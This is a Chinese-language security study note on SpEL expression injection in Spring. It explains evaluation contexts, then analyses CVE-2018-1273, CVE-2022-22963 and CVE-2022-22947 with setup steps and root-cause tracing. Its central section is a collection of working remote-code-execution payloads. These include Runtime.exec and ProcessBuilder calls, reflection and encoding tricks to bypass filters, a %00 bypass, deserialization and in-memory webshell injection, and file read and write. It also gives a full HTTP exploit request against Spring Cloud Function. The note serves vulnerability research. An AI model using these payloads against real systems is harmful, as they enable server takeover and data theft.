


# SpEL表达式注入

## `SpEL`表达式语法
**参考文章：**
* [Spring 表达式语言 (SpEL)](http://itmyhome.com/spring/expressions.html)
* [Spring的SpEL表达式](https://developer.aliyun.com/article/928160)
>对于我们构造`payload`需要使用的部分应该是`类型，构造器，变量，函数，Bean引用`这几种语法的使用了。关于`SpEL`语法这一部分相对来说比较简单。重点关注在如何挖掘这一类漏洞，也就是这一类漏洞通常出现在哪。

>关于`SpEL`表达式的类都在`org.springframework.expression`包中.这里需要说明的就是`EvaluationContext`接口.这个接口用于解析属性、方法或字段，还有类型转换,有两个实现:`StandardEvaluationContext`和`SimpleEvaluationContext`.在关于`SimpleEvaluationContext`的[官方文档](https://docs.spring.io/spring-framework/docs/5.0.6.RELEASE/javadoc-api/org/springframework/expression/spel/support/SimpleEvaluationContext.html)中有一段话`In many cases, the full extent of the SpEL language is not required and should be meaningfully restricted. Examples include but are not limited to data binding expressions, property-based filters, and others. To that effect, SimpleEvaluationContext is tailored to support only a subset of the SpEL language syntax, e.g. excluding references to Java types, constructors, and bean references. `意思就是在很多情况下需要限制表达式的解析范围,而`SimpleEvaluationContext`就是用来限制这个解析集的,`SimpleEvaluationContext`不支持`Java types, constructors, and bean references.`的解析,这样的话也就限制了我们利用表达式调用任意函数执行恶意操作.


```java
package com.example.utils;

import org.springframework.expression.EvaluationContext;
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.SimpleEvaluationContext;
import org.springframework.expression.spel.support.StandardEvaluationContext;

import java.io.IOException;
import java.util.List;

public class Main {
    public static void main(String[] args) throws IOException {
        //StandardEvaluationContext
        ExpressionParser parser = new SpelExpressionParser();
        //这个正则字符串例子是通过单引号扩起来的一个字符串排版声明。接口Expression负责解析之前被定义的字符串表达式
        Expression exp = parser.parseExpression("'Hello World'");
        String message = (String) exp.getValue();
        System.out.println(message);

        //SpEL支持很多功能特性，如调用方法，访问属性，调用构造函数。调用字符串的“CONCAT”的方法。
        exp = parser.parseExpression("'Hello World'.concat('!')");
        message = (String) exp.getValue();
        System.out.println(message);

        //作为调用JavaBean属性的一个例子，String属性“Bytes”在下面被调用了。
        exp = parser.parseExpression("'Hello World'.bytes");
        byte[] bytes = (byte[]) exp.getValue();
        System.out.println(bytes);

        //SpEL还支持使用标准的“.”符号，即嵌套属性prop1.prop2.prop3和属性值的设置
        //公共字段也可被访问。
        exp = parser.parseExpression("'Hello World'.bytes.length");
        int length = (Integer) exp.getValue();
        System.out.println(length);

        //T操作
        /**
         * T操作可以被用来指定安装一个java.lang.ClassClass (the type). 静态方法也可以使用该运算符调用。
         * 然后该 StandardEvaluationContext使用TypeLocator找到类型和 StandardTypeLocator（可替换）是建立与的理解 java.lang package.
         * 这意味着T()引用内的java.lang类型不需要是 完全限定，但所有其他类型的引用必须。
         */

        //EvaluationContext
        //java.lang.Runtime.getRuntime()
        String ex="T(java.lang.Runtime).getRuntime().exec('calc.exe')";
        String processbuilde="new java.lang.ProcessBuilder('calc.exe').start()";
        //exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec('calc.exe')");
        SimpleEvaluationContext build = SimpleEvaluationContext.forReadOnlyDataBinding().build();
        exp = parser.parseExpression("'Hello World'.bytes.length");
        length = (Integer) exp.getValue(build);
        System.out.println(length);
        exp = parser.parseExpression("new java.lang.ProcessBuilder('calc.exe').start()");
        Process value = exp.getValue(build,Process.class); //解析表达式时使用SimpleEvaluationContext限制T标签.
        //value.exec("calc.exe");

        //new ProcessBuilder("calc").start();

    }
}
```

## `payload`集合
>关于各种执行命令的方式,大哥们总结的手法特别多,直接抄一抄就完美了,不需要动脑子.[SpEL表达式注入漏洞学习和回显poc研究](https://www.cnblogs.com/bitterz/p/15206255.html),[bypass openrasp SpEL RCE 的过程及思考](https://landgrey.me/blog/15/)

```java
// Runtime
T(java.lang.Runtime).getRuntime().exec("calc")
T(Runtime).getRuntime().exec("calc")

// ProcessBuilder
new java.lang.ProcessBuilder({'calc'}).start()
new ProcessBuilder({'calc'}).start()


T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 同上，需要有上下文环境
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 反射调用+字符串拼接，绕过正则过滤
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})


''.getClass 替换为 ''.class.getSuperclass().class
''.class.getSuperclass().class.forName('java.lang.Runtime').getDeclaredMethods()[14].invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')


// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符
// byte数组内容的生成后面有脚本
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()
// char转字符串，再字符串concat
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))


T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)

//绕过T( 过滤
T%00(new)
这涉及到SpEL对字符的编码，%00会被直接替换为空

//使用Spring工具类反序列化，绕过new关键字
T(org.springframework.util.SerializationUtils).deserialize(T(com.sun.org.apache.xml.internal.security.utils.Base64).decode('rO0AB...'))
// 可以结合CC链食用

//使用Spring工具类执行自定义类的静态代码块
T(org.springframework.cglib.core.ReflectUtils).defineClass('Singleton',T(com.sun.org.apache.xml.internal.security.utils.Base64).decode('yv66vgAAADIAtQ....'),T(org.springframework.util.ClassUtils).getDefaultClassLoader()) //注入内 存马

//无版本限制回显
new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir", ".\\").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()

//nio 读文件
new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/helloworld/1.txt"))))

//nio 写文件
T(java.nio.file.Files).write(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/helloworld/1.txt")), '123464987984949'.getBytes(),T(java.nio.file.StandardOpenOption).WRITE)
```

## 案例
### `[CVE-2018-1273]Spring Data Common`表达式注入
**参考文章：**
* [Spring Data介绍](https://www.ngui.cc/article/show-329767.html?action=onClick)
* [Spring Data Commons对象映射基础](https://zhuanlan.zhihu.com/p/411381131)
* [CVE-2018-1273 RCE with Spring Data Commons 分析报告](http://xxlegend.com/2018/04/12/CVE-2018-1273-%20RCE%20with%20Spring%20Data%20Commons%20%E5%88%86%E6%9E%90%E6%8A%A5%E5%91%8A/)
* [Spring-Data-Commons CVE-2018-1273 RCE漏洞分析](https://threedr3am.github.io/2019/03/24/Spring-Data-Commons%20CVE-2018-1273%20RCE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
* [Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）分析 ](https://milkfr.github.io/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/2019/11/17/analysis-spring-data-commons-rce/)

#### 环境搭建

```bash
$ git clone https://github.com/spring-projects/spring-data-examples.git  # 官方仓库，默认仓库采用的spring-data-commons组件版本已经是3.0，需要进入到spring-data-examples目录执行下面的命令回退到之前的版本
$ git reset --hard ec94079b8f2b1e66414f410d89003bd333fb6e7d  # 回退到一个库版本较旧的版本
```


#### 漏洞分析
>首先根据漏洞修复的[`commit`](https://github.com/spring-projects/spring-data-commons/commit/b1a20ae1e82a63f99b3afc6f2aaedb3bf4dc432a?diff=split)可以找到漏洞位置是`org/springframework/data/web/MapDataBinder.java#setPropertyValue()`，修复方案是将`StandardEvaluationContext`替换成为`SimpleEvaluationContext`。


>之后重要的部分是寻找在哪个地方对这个`MapDataBinder`类存在调用。通过一直`find Usage`可以找到如下的调用链`SpringDataWebConfiguration#addArgumentResolvers()`->`ProxyingHandlerMethodArgumentResolver#createAttribute()`->`MapDataBinder#setPropertyValue()`。


>其中这个`SpringDataWebConfiguration`应该是`Spring-Data`组件适配`Web`开发配置文件,而这个`addArgumentResolvers`方法的作用就是添加一个参数解析的适配器,具体可以参考文章[WebMvcConfigurer中addArgumentResolvers方法的使用](https://www.cnblogs.com/wurao/p/15556787.html).而它配置的`ProxyingHandlerMethodArgumentResolver`这个类实现自`HandlerMethodArgumentResolver`,可以参考这篇文章[HandlerMethodArgumentResolver(参数解析器)的作用+使用小案例](https://blog.csdn.net/qq_36408229/article/details/104436508)了解具体的使用方法.


>然后我们再看`ProxyingHandlerMethodArgumentResolver#supportsParameter()`这个方法,他是判断参数解析的类型是不是一个`interface`类,如果是的话就会进入到`resolveArgument`方法中.而传递接口类型的参数,他的调用方式见下面的图二.


>通过`debug`来实际跟踪一下流程.首先是参数解析,判断是否是`interface`类型的参数[图一].确认是可以解析的类型之后进入到`createAttribute()`方法执行参数绑定的流程,这一步也就进入到`MapDataBinder`这个类当中[图二].之后就是参数绑定最终进入到`setPropertyValve()`方法当中[图三].


>在`binder.bind()`方法中需要跟踪一下参数的传递过程.在调用`getPropertyAccessor().setPropertyValues(mpvs, isIgnoreUnknownFields(), isIgnoreInvalidFields())`之后最后会进入到`AbstractPropertyAccessor#setPropertyValues()`方法,这里有一个类的继承与接口的实现关系,可以看一下`MapDataBinder`类的继承关系[图三].然后遍历参数,挨个进行参数绑定[图二],所以此处其实三个接口都可以触发参数绑定.


>然就是还有一个小细节,就是当传递`use[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe")]=1&password=1&repeatedpassword=1`这种参数的时候,也可以进入到参数绑定的过程中,但是在`setPropertyValue()`中有一个校验,会将参数中`[]`内部的内容去掉,然后确定参数是否在接口中定义了.





### `[CVE-2022-22963]Spring cloud Function`表达式注入
**参考文章:**
* [spring-cloud-function.html](https://cloud.spring.io/spring-cloud-function/reference/html/spring-cloud-function.html)
* [spring-cloud-function官方文档](https://spring.io/projects/spring-cloud-function#overview)
* [SpringCloud Function SpEL注入漏洞分析及环境搭建](https://www.jb51.net/article/243691.htm)

#### 环境搭建
>环境搭建采用`spring`官方提供的[案例](https://cloud.spring.io/spring-cloud-function/reference/html/spring-cloud-function.html)，将里面的`function-sample`项目单独提出了，搭建环境。过程中需要简单修改一些配置的内容[图二]


```
POST / HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain
Content-Length: 1
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc.exe")
Upgrade-Insecure-Requests: 1

a
```


 
#### 使用教程
**参考文章：**
* [Spring Cloud Function 快速入门](https://www.modb.pro/db/375577)

>个人将`Spring Cloud Function`理解成函数接口调用，可以看源代码中是没有定义常见的`Controller`控制器的，而是通过`@Bean`注入功能函数，然后在函数中对逻辑进行处理，而函数可以自动导出为`HTTP`端点，也就是可以通过`web`的方式直接调用到函数。


> 实验：将输入的内容转换为小写，则可以访问`/lowercase`这个端点。


>[Declarative Function Composition(声明函数组合)](https://cloud.spring.io/spring-cloud-function/reference/html/spring-cloud-function.html#_declarative_function_composition): 比如我在`application.properties`中配置`spring.cloud.function.definition:lowercase,replaces`,表示将我们的输入先转换为小写然后替换里面的`a`->`b`,也就是说两个函数可以同时被调用.


>[Function Routing(函数路由)](https://cloud.spring.io/spring-cloud-function/reference/html/spring-cloud-function.html#_function_routing): 这是`Spring Cloud Function`从`2.2`版本后提供的一个功能,简单来说就是配置`spring.cloud.function.definition:functionRouter`的时候,可以通过前端控制来调配路由,这样就更加灵活.而漏洞也出现在这个功能当中.比如此时我们想再实现先转小写然后替换的功能就可以如图一传参,想实现先转大写然后替换可以如图二传参.


>如果传递的参数类型是`Message<?>`,那么消息头有两种设置方法`spring.cloud.function.definition`和`spring.cloud.function.routing-expression`.而其中`spring.cloud.function.routing-expression`会对我们的设置进行`spel`表达式解析.比如当我们传递`spring.cloud.function.routing-expression: UPPercase`的时候会找不到端点,但是传递`spring.cloud.function.routing-expression: 'UPPercase'.toLowerCase()`就可以实现将小写转换为大写.


#### 漏洞分析
>在上面已经分析了漏洞触发的功能点,之后就要试图找到漏洞触发的位置,这里想法是有两种.第一种是通过控制台的报错信息.第二种是通过`git`上官方修复的`commit`信息.
>第二种查找官方的`commit`时候发现这个`commit`已经不见了,相关的`issue`也已经被删除了,还是从别的文章中找到的`commit`.[GH-835 Fix RoutingFunction SpEL evaluation](https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f).因为之前不习惯看`commit`所以这一块的熟练度需要加强.`GH-835`是`issue`的编号,不过这个编号已经删掉了,而且我翻了这个作者提交的全部`commit`也没有发现可以直接找到这个`commit`不知道原因.


>第一种就是传递一个错误的表达式--`"UPPercase'.toLowerCase()`,让解析报错,然后根据堆栈信息进行查找.


>在一开始的时候说没有使用`controller`其实是不正确的,`spring-cloud-function`本质上还是通过`controller`来查找的路由,然后再分发到不同的函数上面.


>经过分发进入到`FunctionWebRequestProcessingHelper.processRequest()`方法当中,在这个方法里面对路由方式进行了校验,他会判断我们配置的是不是`functionRouter`,然后进行路由处理.


>之后进入到`header`头消息解析当中,会依次判断是否存在请求头`spring.cloud.function.definition`和`spring.cloud.function.routing-expression`,如果是后者则对请求头的值进行表达式解析.


### `[CVE-2022-22947]Spring cloud Gateway`表达式注入
**参考文章:**
* [spring-cloud-gateway之GlobalFilter](https://www.jianshu.com/p/55de48fc484b) 建议看一下关于`spring-cloud-gateway`的系列文章
* [Spring Cloud Gateway简单使用](https://blog.csdn.net/lydms/article/details/125921630)
* [CVE-2022-22947 SpringCloud GateWay SPEL RCE Echo Response](https://y4er.com/posts/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/)
* [Spring Cloud Gateway SPEL RCE复现-CVE-2022-22947](https://www.cnblogs.com/TT0TT/p/16485368.html)

####  环境搭建
>此处的环境搭建采用`eureka+springcloudGateway`，通过`eureka`自动注册服务，然后`springcloudGateway`做`API`网关。[项目地址](https://gitee.com/hengboy/spring-cloud-chapter/tree/master/spring-cloud-gateway-request-forward)，[对应文章](https://segmentfault.com/a/1190000019074715)
>此处需要将项目进行一些修改，首先就是版本修改，然后要为`Spring Cloud Gateway`配置`actuator`。

```xml
修改后：sample-spring-cloud-gateway项目的pom.xml文件
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <parent>
        <artifactId>spring-cloud-gateway-request-forward</artifactId>
        <groupId>org.minbox.framework</groupId>
        <version>0.0.1-SNAPSHOT</version>
    </parent>
    <modelVersion>4.0.0</modelVersion>

    <artifactId>sample-spring-cloud-gateway</artifactId>

    <dependencies>
        <!--Spring Cloud Gateway-->
        <dependency>
            <groupId>org.springframework.cloud</groupId>
            <artifactId>spring-cloud-starter-gateway</artifactId>
            <version>3.1.0</version>
        </dependency>
        <!--Eureka Client-->
        <dependency>
            <groupId>org.springframework.cloud</groupId>
            <artifactId>spring-cloud-starter-netflix-eureka-client</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-actuator</artifactId>
        </dependency>
    </dependencies>
</project>

修改后：spring-cloud-gateway-request-forward项目的pom.xml文件
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <packaging>pom</packaging>
    <modules>
        <module>sample-eureka-server</module>
        <module>sample-user-service</module>
        <module>sample-spring-cloud-gateway</module>
        <module>sample-user-service-lb</module>
    </modules>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.6.5</version> <!--修改版本-->
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>org.minbox.framework</groupId>
    <artifactId>spring-cloud-gateway-request-forward</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>spring-cloud-gateway-request-forward</name>
    <description>
        SpringCloud Gateway 请求转发示例
        1. 单服务实例请求转发
        2. 同服务名多实例负载请求转发
    </description>

    <properties>
        <java.version>1.8</java.version>
        <spring-cloud.version>2021.0.0</spring-cloud.version> <!--修改版本-->
    </properties>

    <dependencies>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
    </dependencies>

    <dependencyManagement>
        <dependencies>
            <dependency>
                <groupId>org.springframework.cloud</groupId>
                <artifactId>spring-cloud-dependencies</artifactId>
                <version>${spring-cloud.version}</version>
                <type>pom</type>
                <scope>import</scope>
            </dependency>
        </dependencies>
    </dependencyManagement>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>
```


#### 使用教程
>在搭建之后简单的使用这个项目。由于项目采用`Eureka`自动注册服务，所以`Gateway`可以自动发现服务并且进行项目转发，我们也可以通过手动配置一个路由规则，来进行访问。项目内一共两个`web`服务，我们将其中一个配置`eureka`自动发现服务，一个手动路由配置。

```
# 服务名称
spring:
  application:
    name: spring-cloud-gateway
  
  cloud:
    gateway:
      discovery:
        locator:
          enabled: true  # 开启 Gateway 服务注册中心服务发现
      routes:   # 手动配置路由
      - id: ingredients
        uri: http://localhost:9091
        predicates:
        - Path=/index
        filters:
        - AddResponseHeader=addHeader, adb
# Eureka Server 配置
eureka:
  client:
    service-url:
      defaultZone: http://localhost:10000/eureka/
# 配置Gateway日志等级，输出转发细节信息
logging:
  level:
    org.springframework.cloud.gateway: debug

management:   #开启actuator
  endpoints:
    web:
      exposure:
        include: "*"
```


>配置`actuator`的作用是什么呢?在`spring-cloud-gateway`内部有`actuator`端点健康功能`GatewayControllerEndpoint`,通过配置`actuator`可以开启`gateway`的监控功能.这些功能就包括添加一个路由,删除一个路由,自动刷新路由等等.这个也是漏洞利用的入口功能.


#### 漏洞分析
>在官方项目中还能找到这个漏洞修复的[commit](https://github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e)信息.可以看到修复的方案也就是将`StandardEvaluationContext`替换成为`SimpleEvaluationContext`.


>关于漏洞触发的位置`org/springframework/cloud/gateway/support/ShortcutConfigurable.java`这个接口的作用,建议首先看一下`spring-cloud-gateway`的设计思路,[参考文章](https://www.jianshu.com/p/55de48fc484b),在这个博文中是一个系列介绍`gateway`的建议看一下然后就能理解如何触发到`ShortcutConfigurable`这个接口类了.
>可以看到图一中说`ShortcutConfigurable`接口类是一个工具类,用于解析断言参数是会调用这个类,加载配置过滤器也会调用到这个类.




>那么第一种情况,什么是断言呢?断言是`spring-cloud-gateway`的要素之一,配置文件中`predicates`参数就是断言,通俗理解就是配置满足什么条件时进行路由转发.而断言解析是可以触发漏洞点的,所以此处简单举个例子,我们将断言配置成为`payload`,可以看到是触发了漏洞.


>那么此处就产生一个漏洞利用的思路了,我们通过`actuator`的路由注册功能,手动添加一个路由,并且将断言设置为我们的`payload`,然后再结合`spring-cloud-gateway`的自动刷新功能,利用漏洞.不过失败了啊....断言添加之后也没触发漏洞,然后打印出来的断言和输入也不太一样....


>既然断言不行,那就尝试第二种,加载配置过滤器的解析.配置过滤器是`gateway`的又一个要素,在[文章](https://www.jianshu.com/p/346cc3356784)中可以看到内置的这些过滤器,而解析过滤器也可以触发表达式注入.然后再看调用堆栈信息,是从`loadGatewayFilters`方法进入的,和断言的解析是不一样的.


>此处的想法也是一样滴,通过注册一个路由,并且将`filter`设置成我们的`payload`来触发漏洞.


>可以看到我们注入`filter`之后刷新路由已经触发了`payload`,但是他会提示一个值的绑定错误.就是`spel`表达式执行之后的类型错误,所以我们要保证`spel`表达式执行之后返回的是一个字符串类型.此处注意,在刷新的时候会触发一次payload,然后我们访问这个路由的详细信息时又会触发一次,原理都是一致的,可以查看他们的堆栈信息.


>修改`payload`返回一个字符串类型.


>在参考文章的中,都是从函数然后反向查找调用,然后找到功能入口.